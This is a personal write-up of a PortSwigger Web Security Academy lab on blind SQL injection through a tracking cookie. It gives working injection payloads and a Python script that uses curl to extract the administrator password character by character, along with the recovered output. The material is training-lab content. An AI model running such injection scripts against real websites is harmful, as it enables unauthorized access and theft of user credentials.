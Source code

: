 ```yaml
---
tags:
  - "#fleeting"
links:
  - "[[MOC WriteUps]]"
  - "[[MOC Web Vulns]]"
---
```

[Portswigger lab](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses#)

# The Lab description
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.
# Understanding the lab
When i access the lab i find that it works normally till i hit the login or refresh it gives me a `Welcome Back` begind the login icon.
By analyzing the request i found out that there r two cookies
```header
Cookie: TrackingId=e2D1yRgn8a5Q8l8E; session=OoYYGOLsm9n9NqZ2rLc4r2H4IBvhT8i5
```
contains `TrackingId` and `session`.

I assumed that the TrackingId is in an SQL query like `SELECT TrackingId FROM users WHERE TrackingId = <MY COOKIE>;`
So i started testing injecting in there to what happens to the posisive msg `Welcome Back`.
First when i change the id it doesn’t appear so the trackingid is essential.
Then opened burp repeater trying to add something like `...8E' OR '1'='2' --` make it doesn’t appear.
So started hunting.
I started testing the database data the site gave me about the lab 
`8E' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),1,1) > '0'--; session=OoYYGOLsm9n9NqZ2rLc4r2H4IBvhT8i5`

it worked and when changin the test to `< '0'` it doesn’t.
so at first i tried it manually found out that i will not finish so i used the most way i like… scripting.

I made this script to start getting the password
```python
import subprocess

def getCmd(i, char, sign):
    link = "https://0af900ba04c11a3481b6b15700db0006.web-security-academy.net/"
    cookies = f"Cookie: TrackingId=e2D1yRgn8a5Q8l8E' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),{i},1) {sign} '{char}'--; session=OoYYGOLsm9n9NqZ2rLc4r2H4IBvhT8i5" 
    return f"""curl -L "{link}" -H "{cookies}" """
i=1
password = ""
positive = "<div>Welcome back!</div><p>|</p>"

while True:
    for char in "abcdefghijklmnopqrstuvwxyz0123456789":
        cmd = getCmd(i, char, '=')
        res = subprocess.run(cmd, shell=True, check=True, capture_output=True)
        if res.stdout.decode().find(positive) != -1:
            password += char
            print(f"Password: {password}")
            break
    i += 1
    if subprocess.run(getCmd(i, "", '='), shell=True, check=True, capture_output=True).stdout.decode().find(positive) != -1:
		print("Done!")
        break
```

Then launching get giving me
```python
$ python sqlGuessPassword.py
Password: y
Password: yq
Password: yqc
Password: yqcs
Password: yqcsv
Password: yqcsvs
Password: yqcsvsd
Password: yqcsvsd2
Password: yqcsvsd2d
Password: yqcsvsd2dy
Password: yqcsvsd2dyz
Password: yqcsvsd2dyzd
Password: yqcsvsd2dyzdc
Password: yqcsvsd2dyzdc3
Password: yqcsvsd2dyzdc3g
Password: yqcsvsd2dyzdc3gu
Password: yqcsvsd2dyzdc3gui
Password: yqcsvsd2dyzdc3guia
Password: yqcsvsd2dyzdc3guia4
Password: yqcsvsd2dyzdc3guia4g
Done
```

logging in and… Congratulations 😇